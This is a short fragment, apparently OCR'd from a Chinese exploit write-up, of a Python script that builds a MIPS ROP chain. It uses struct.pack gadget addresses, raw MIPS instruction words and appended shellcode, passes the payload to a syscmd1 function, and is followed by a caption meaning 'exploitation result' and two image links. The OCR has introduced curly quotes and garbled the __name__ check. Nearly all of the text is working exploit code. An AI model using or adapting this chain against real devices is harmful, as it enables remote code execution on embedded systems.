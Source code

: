 ```
payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2

payload1+=‘b’*0x1c+s0+s1+s2+s3+s4

payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);…;jr $ra

payload1+=‘c’*0x1c

payload1+=s3

payload1+=‘d’*0x18

payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",0x0220c821)

payload1+=struct.pack(">I",0x0320f809)

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;…;jalr $t9

payload1+=‘e’*0x20+shellcode

if **name** == “**main**”:

syscmd1(payload1)` 
```

利用效果:

![image](img/8def18e7c80a38bbc964810e310a7a52.png)

![image](img/f071b26bc3565de692ce61365327d2c3.png)
